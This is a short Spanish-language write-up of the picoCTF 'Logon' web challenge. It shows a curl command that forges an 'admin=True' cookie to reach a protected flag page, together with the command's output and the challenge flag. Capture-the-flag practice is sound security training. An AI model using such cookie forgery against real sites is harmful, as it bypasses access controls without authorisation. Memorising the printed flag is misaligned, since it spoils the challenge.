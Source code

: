 # Logon
## Objetivo

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Solución

```shell
tux3000-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: admin=True" | grep picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   4563      0 --:--:-- --:--:-- --:--:--  4571
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
tux3000-picoctf@webshell:~$
```
## Notas adicionales

Accedí a la pagina y me logue como Joe y obtuve acceso a la ruta flag.

|Comando | Descripcion |
|-|-|
|curl |  Sirve para transferir datos hacia o desde un servidor con URL|
## Referencias